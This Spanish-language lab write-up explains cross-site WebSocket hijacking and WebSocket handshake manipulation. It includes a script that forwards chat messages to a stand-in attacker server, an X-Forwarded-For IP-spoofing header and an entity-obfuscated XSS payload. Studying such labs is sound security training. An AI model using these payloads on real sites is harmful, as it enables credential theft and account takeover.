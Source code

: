 Este laboratorio presenta un escenario en el que un canal WebSocket se encuentra mal protegido, permitiendo que un atacante pueda establecer una conexión maliciosa desde otro dominio y extraer información sensible.

La aplicación incorpora un sistema de chat que utiliza WebSockets para gestionar la comunicación. Analizando la interacción con el servidor, identificamos que no existen medidas de protección contra peticiones cruzadas (como tokens CSRF o validación de origen), lo que abre la puerta a un ataque de tipo cross-site WebSocket hijacking.

El atacante construye un payload malicioso en una página controlada, capaz de establecer la conexión WebSocket directamente con el servidor del chat. Desde ahí, simula el comportamiento legítimo del cliente, solicitando el historial de conversación. Una vez recuperados los mensajes, estos se reenvían a un servidor externo (como Burp Collaborator) para su análisis.

#### Ejemplo de exploit para CSWSH:

```html
<script>
  var socket = new WebSocket('wss://vulnerable-site.com/chat');
  
  socket.onopen = function() {
    socket.send('READY');  // Iniciar la conexión
  };
  
  socket.onmessage = function(event) {
    fetch('https://attackers-server.com/collect?data=' + encodeURIComponent(event.data));
  };
</script>
```

El laboratorio se resuelve cuando logramos obtener, entre los mensajes de la víctima, sus credenciales de acceso, y las usamos para iniciar sesión en su cuenta. Esto demuestra cómo una falta de validaciones en el establecimiento de conexiones WebSocket puede comprometer la seguridad de los usuarios.

### Manipulación del Handshake de WebSocket

Este laboratorio presenta un escenario en el que una tienda online utiliza WebSockets para su sistema de chat en tiempo real. Sin embargo, la implementación contiene una lógica de filtrado de XSS defectuosa que puede ser sorteada con técnicas de evasión.

Durante la interacción con el chat, se descubre que al enviar una carga maliciosa clásica, la conexión WebSocket se termina inmediatamente y el servidor bloquea la IP del cliente. Sin embargo, este mecanismo puede ser eludido modificando la cabecera del handshake para falsificar la dirección IP mediante un encabezado específico.

Una vez restablecida la conexión usando esta técnica, se puede enviar una versión ofuscada de una carga XSS que pasa por alto el filtro del servidor. Dicha carga es ejecutada por el navegador del agente de soporte, resolviendo así el laboratorio al provocar la ejecución de un '**alert()**'.

#### Técnica de explotación:

1. Intenta enviar una carga XSS básica y observa el bloqueo
2. Modifica el handshake WebSocket para incluir una cabecera que falsifique tu IP:
   ```
   X-Forwarded-For: 127.0.0.1
   ```
3. Envía una carga XSS ofuscada para evadir los filtros:
   ```
   <img src=1 onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;(1)">
   ```
